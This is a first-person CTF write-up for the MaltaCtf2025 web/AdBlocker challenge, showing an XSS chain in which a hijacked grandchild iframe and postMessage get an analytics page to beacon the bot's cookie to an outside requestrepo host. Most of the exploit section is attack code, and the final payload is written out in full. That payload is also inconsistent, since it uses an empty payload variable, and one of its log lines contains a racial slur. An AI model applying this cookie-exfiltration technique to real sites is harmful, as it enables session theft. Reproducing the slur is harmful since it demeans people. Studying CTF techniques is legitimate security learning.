

# AdBlocker Web Challenge

**Challenge**: web/AdBlocker

**Author**: [Dreyand](https://x.com/dreyand_/)


I've decided to play MaltaCtf2025, knowing that my friend DreyAnd made a web Challenge called AdBlocker. I've dedicated my whole saturday on this challenge.


My solution was unintended and I am guessing most of the people who had solved the challenge solved it this way. Unfortunately, I have not succeeded to solve the challenge even tho I had the solution for it. Probably because I was already 10hrs+ in this challenge AND it was 2am, believe it or not I have failed to escape a string properly in my payload which resulted to the payload not working. :) :) :). 

I usually don't lock in for challenges this much but considering my friend made it I was determined on solving it :( . Either way I hope you enjoy the writeup and I will try to go as indepth as I can and I will write my thinking process while doing this challenge. 

## Solution

### First look at the challenge setup and code

The challenge setup had a /web and /analytics directory and two websites http://web:1337 and http://analytics:3000 . Web directory had a source code for the http://web:1337 site and a bot.js source code which immediately rings a bell XSS. Looking at the bots code it sets a cookie on analytics website which probably means we have to steal the cookie via xss. The cookie is not httpOnly, secure is set to false and sameSite is lax which means the cookie is stealable.

I usually first look at where the flag is located to get an idea of what are the ways we can retreive it, for e.g if its set in flag.txt and not called anywhere in the app we prob need to have some kind of arbitrary file read, RCE etc... In this case xss was the way.

https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/Cookies

`bot.js`
```javascript
   try {
        const page = await browser.newPage();

        await page.goto(process.env.ANALYTICS_URL, {
            waitUntil: 'domcontentloaded',
            timeout: 3000
        });

        await page.setCookie({
            name: 'flag',
            value: process.env.FLAG || 'maltactf{fake_flag}',
            secure: false,
            sameSite: 'Lax',
            httpOnly: false
        });


        console.log(`[Bot] Visiting user URL: ${url}`);
        await page.goto(url, {
            waitUntil: 'domcontentloaded',
            timeout: 10000
        });
```

Main web app source:

`ad.html`
```javascript
 <script>
        window.addEventListener('message', (event) => {
            console.log(event);
            console.log(event.source.parent);
            console.log(window);
            console.log("post msg", event.data);
            if (event.source.parent !== window) {
                return;
            }
            if (event.data && event.data.payload) {
                document.getElementById('ad-hello').innerHTML = event.data.payload;    
            }
        });
         
        function tempAd() {
            const iframe = document.createElement('iframe');
            iframe.src = `http://${window.location.hostname}:3000/integrate`;
            iframe.width = '100%';
            iframe.height = '100%';
            iframe.style.border = 'none';
            
            const container = document.getElementById('ad-container');
            container.appendChild(iframe);
            document.body.innerHTML = iframe.src;
            setTimeout(async () => {
                await import('/ad.js');
            }, 1);
        }

        tempAd();
    </script>
```
the code is pretty clear and readable so I wont go into details of it. It listens for the post messages and runs a function that creates a frame, and calls ad.js after 1ms.

`ad.js`
```javascript
(async function() {
    const container = document.getElementById('ad-container');
    
    const currentHost = window.location.hostname;
    const analyticsUrl = `http://${currentHost}:3000/ping`;
    
    try {
        await fetch(analyticsUrl);
        if (container && container.firstChild) {
            container.removeChild(container.firstChild);
        }
    } catch (error) {
        console.log('Analytics service not available');
    }
})(); 
```
The code deletes the iframe if it exists and sends a fetch req to /ping on analytics website.

Straight away I had an idea doing a grandparent iframe (will elaborate later on) trick which I read about on some chineese blog months ago. Suprised I remembered of it straight away tbh :) .


Analytics directory included source code for analytics website. 

`integrate.html`
```javascript
 <script>
        const TRUSTED_ORIGINS = [/*TRUSTED_ORIGINS*/]; // [web:1337,analytics:3000]

        function isTrustedOrigin(origin) {
            return TRUSTED_ORIGINS.includes(origin);
        }

        window.addEventListener('message', (event) => {
            console.log("event.origin",event.origin)
            console.log("event.data",event.data)
            fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?42line")
            if (!isTrustedOrigin(event.origin)) {
                fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?failorigin=" + event.origin)
                console.warn('Rejected message from untrusted origin:', event.origin);
                return;
            }

            if (!event.data || typeof event.data !== 'object') {
                fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?faildata=" + event.data)
                console.warn('Invalid message format received');
                return;
            }

            if (event.data.analytics && event.data.url) {
                if (isTrustedOrigin(event.origin)) {
                    console.log("event.origin")
                    navigator.sendBeacon(event.data.url, JSON.stringify({"analytics-tracking-cookies": document.cookie, "url": event.data.url}));
                }
            }
        });

        if (window.parent) {
            window.parent.postMessage({
                payload: 'Integration successful :D'
            }, '*'); 
        }
    </script>
```

We can see here that the code also has a post message listener, and if there is a check that sends a postMessage to the parent.

Whats interesting is the message listener, if it passes all checks it sends a request to a url provided via post message and cookie with it. Which is probably the way of requiring the flag at the end.


My idea for the solution was following:

Do the grandparent trick (which changes the url of the iframe inside of web:1337 (explained later on)) -> send a post message from our controled domain iframe to the web:1337, 

I won't be providing the backend source code for either web apps because it is not related to the solution (at least in my case)


### Exploitation

Without further thinking, I went straight ahead into trying the grandparent trick with iframes. 

The grandparent trick is the trick where the SOP allows you from an attacker site to change the location of the grandchild iframe inside of a websites iframe.

Setup example:

```
a.origin.com is frameable (this is a must) and inside of a.origin.com website c.origin.com is framed (child)

Well if you can have a setup as the following:
attacker.com iframes -> a.origin.com - which frames -> c.origin.com

^ Because of grandparent-child relationship SOP will allow attacker.com to change the location of the grandchild iframe (c.origin.com in this case)

e.g frames[0][0].location = "attackers.com" -> Now the iframe (grandchild) inside of a.origin.com (child) will be an iframe of "attackers.com" which is pretty neat trick
```

After trying this trick for some time I could not get it:

```javascript
<iframe src="http://web:1337/ad.html" id="testFrame" width="800" height="600"></iframe>

<script>
    window.frames[0].frames[0].location = "controledUrl.com";
</script>
```

With errors:
```error
Uncaught SecurityError: Failed to read an indexed property [0] from 'Window': Blocked a frame with origin "http://localhost:1312" from accessing a cross-origin frame.
```

I did not get why, after some time i realised that the iframe was deleted by ad.js lol and that made it unaccesable. I did not know this error shows up when the trying to change the value of unexisting iframe...

Now I figured I have to "catch the iframe", it was loading ad.js after "1ms" supposably. But looking at the network section in devtools I saw there is around 30+ms delay between when the website is loaded and ad.js is loaded. Race time 🏎️.

Well, turns out I got stuck on this for... 4 hours 💀. 

The issue I had is that I catch the iframe, but the request to my url is canceled everytime. While banging my head for 4 hours just on this I was about to give up tbh... Turns out this happens bcs I was spamming the url, even after it was set. I had no idea browser cancels requests when they are being spammed this way...

Current code:
```javascript
<iframe src="http://web:1337/ad.html" id="testFrame" width="800" height="600"></iframe>

<script>
   const interval = setInterval(() => {
        try{
            window.frames[0].frames[0].location = "https://webhook.site/4957a826-7bab-461c-9642-a1bc1a9ee561";
            clearInterval(interval);
        } catch (e) {
        }
    }, 0.1);
</script>
```


So after spending 4 hours trying to fix this and looking at the network tab and ms I thought myb the ad.js bcs it was async await call it cancels the request or something... No idea :| .

Tbh I still have no idea why this was happening, My guess is something to do with this or the async await thing I mentioned above:
https://medium.com/@itskishankumar98/api-cancellation-on-the-browser-5504bb68c974

I suddenly remembered one other way that I've read about to bypass the frame-src CSP. Well even tho there was no CSP in this case I thought well, what if I don't need to fetch and request anything? What if I can load a blank page and just write on it?

Yup!

I immediately tried using `about:blank` instead of an url and SOP allows you to write on about:blank page by default so I just loaded about:blank and wrote my own html on it == works!

```javascript
   const interval = setInterval(() => {
            try {
               
                window.frames[0].frames[0].location = "about:blank";
                window.frames[0].frames[0].document.write(`<!DOCTYPE html>
                                            <html>
                                            <head>
                                                <title>Server Response<\/title>
                                            <\/head>
                                            <body>
                                                <script>
                                                        window.parent.postMessage({
                                                        payload: 'lmao'
                                                        }, '*'); 
                                                <\/script>
                                            <\/body>
                                            <\/html><\/script>`);
                
    
                console.log("SUCCESS!");
                
                clearInterval(interval);
                
            } catch (e) {
            }
        }, 0.1); 
```


It worked! banger. I already created a whole plan of exploiting this before it even succeded:

Xss on web:1337 sends a post message to the listener on analytics:3000, which passes all the origin checks and I put my webhook url inside of the url of the post message. Well I was right...

Well considering I'm dumb and inexipirienced I tried opening the analytics:3000 with iframe then sending postmsg that way, turns out that iframes dont load cookie? :P after being stuck on this too it was alr like 12-1am ? 

I figured ok yeah I'm dumb I will just use window right? Well yeah :| 

After trying with window for 1hr+ It DID NOT WORK. Turns out it was a correct solution by my dumbass didn't escape all the strings properly... I was really tired so my brain was barely working atp. I concluded okay idk why but maybe bot needs to click on this bcs browser is blocking it?

My payload :_) ; Turns out I already hade a good solution but that small string esc was tearing me up :), even tho for some reason locally it worked but eh... Again the inexpirience kicked in, instead of making a variable with payload then just using it in the document.write part I was writing the payload inside of the html which prob created all those problems in the first place...



Turns out I was supposed to use `\\\` instead of only `\` to escape a single quote `'` ... For some reason it worked for me locally but ig the error was in the post message to `analytics:3000` part which I didn't test bcs of the origin checks...


Final payload (prettified):
```javascript
<!DOCTYPE html>
<html>
<head>
    <title>Iframe Test</title>
</head>
<body>
    <iframe src="http://web:1337/ad.html" id="testFrame" width="800" height="600"></iframe>


    <script>
    const p = `const w=window.open(\\\'http://analytics:3000/integrate\\\', \\\'_blank\\\');setTimeout(() => {if (w) {w.postMessage({analytics:1,url:\\\'http://au3daluz.requestrepo.com\\\'}, \\\'*\\\');}} , 3000);`
    const payload = ``
    const interval = setInterval(() => {
            try {
               
                window.frames[0].frames[0].location = "about:blank";
                console.log(payload)
                window.frames[0].frames[0].document.write(`<!DOCTYPE html>
                                            <html>
                                            <head>
                                                <title>Server Response<\/title>
                                            <\/head>
                                            <body>
                                                <script>
                                                        window.parent.postMessage({
                                                        payload: '${payload}'
                                                        }, '*'); 
                                                <\/script>
                                            <\/body>
                                            <\/html><\/script>`);
                
    
                console.log("SUCCESS! niggers");
                
                clearInterval(interval);
                
            } catch (e) {
            }
        }, 0.1); 

    </script>
</body>
</html> 


```

Great chall!